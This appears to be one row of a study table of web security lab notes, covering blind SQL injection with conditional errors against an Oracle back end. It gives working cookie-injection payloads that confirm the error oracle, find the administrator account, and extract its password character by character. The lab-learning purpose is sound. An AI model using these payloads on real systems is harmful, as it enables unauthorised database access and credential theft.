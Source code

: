 |36    |Blind SQL injection with conditional errors                                                                              |TrackingId=fGxw1PL5NKoujlMP'&#124;&#124;(SELECT '' FROM dual)&#124;&#124;’ vs TrackingId=fGxw1PL5NKoujlMP'&#124;&#124;(SELECT '' FROM blah)&#124;&#124;’ These give different error messages when there is a syntax error.  Identify users table existence: TrackingId=xyz'&#124;&#124;(SELECT '' FROM users WHERE ROWNUM = 1)&#124;&#124;'  Identify administrator existence (using CASE 1=1 for true): TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'  Identify the number of characters in the password (iterate up from >1 until you get an error): TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'  Identify the first character of the password (set the payload to ‘a’):  TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |TrackingId=xyz' vs TrackingId=xyz''. These will show error 500 vs 200 OK. You can infer that the error 500 is therefore a syntax error, while 200 OK is accepted. Confirm it is a SQL error: '&#124;&#124;(SELECT '')&#124;&#124;' This is invalid due to database type, '&#124;&#124;(SELECT '' FROM dual)&#124;&#124;' is valid (Oracle as all SELECT statements need to be FROM  a table).  Then, perform the steps to identify the users table and the administrator user. The CASE function can be used to make something true.  TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'  Perform the steps to identify the character in the first character of the password. Set the payload to ‘a’:  TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'  Re-run the intruder attack, with 2,1 instead:  TrackingId=xyz'&#124;&#124;(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')&#124;&#124;'                                                                                                                                                                |Practitioner, SQLi                          |